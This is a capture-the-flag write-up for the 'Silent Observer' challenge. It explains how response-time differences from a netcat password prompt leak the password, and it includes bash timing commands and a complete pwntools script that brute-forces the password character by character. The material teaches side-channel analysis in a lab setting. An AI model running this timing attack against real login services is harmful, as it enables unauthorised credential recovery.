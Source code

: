 # Writeup for **Silent Observer**

### **Challenge Description**
> The system seems secure, but if you look closely, it's telling you everything.
---

## **Step 1: Initial Interaction**
The challenge is accessible via **Netcat**, upon connecting, we see:

```bash
[?] Enter password: 
```
and after some input, the input gets `sha256` hashed we get `[-] Wrong! Try again.`:

![Visual demo](images/image1.png)

## **Step 2: Analysis**
Since there are no direct hints, we check for timing differences.\
Using `time` in Bash, we test different inputs:

```bash
(time echo "a" | nc <server> <port>) 2>&1 | grep real
(time echo "b" | nc <server> <port>) 2>&1 | grep real
...
```
Output:\
`real    0m0.054s`\
`real    0m0.056s`


but for `t`
```bash
(time echo "t" | nc <server> <port>) 2>&1 | grep real
```
Output:\
`real    0m0.172s`

we see a significant increase in time (approx 0.1 seconds overhead) which means the system is vulnerable to a timing attack.


## **Step 3 Automating the Attack**
To extract the password:
- Test each character (A-Z, a-z, 0-9, symbols).
- Record response time for each guess.
- Choose the character that causes the longest delay.
- Repeat the process until we recover the full password.

## **Solve Script**
```python
from pwn import *
import string
import time

HOST = "<server>"
PORT = <port>

CHARSET = string.ascii_letters + string.digits + string.punctuation
password = ""

while True:
    best_char = None
    best_time = 0

    for char in CHARSET:
        test_password = password + char

        start_time = time.time()

        conn = remote(HOST, PORT)  # Connect to the challenge
        conn.sendline(test_password.encode())  # Send the test password
        conn.recvline()  # Read hash output (not relevant)
        conn.recvline()  # Read correctness message
        conn.close()

        elapsed_time = time.time() - start_time

        if elapsed_time > best_time:
            best_time = elapsed_time
            best_char = char

    if best_char:
        password += best_char
        print(f"[+] Found character: {best_char} | Current password: {password}")
    else:
        break  # Stop if no progress

print(f"[+] Recovered password: {password}")

```

and slowly character by character the flag will be exposed!!!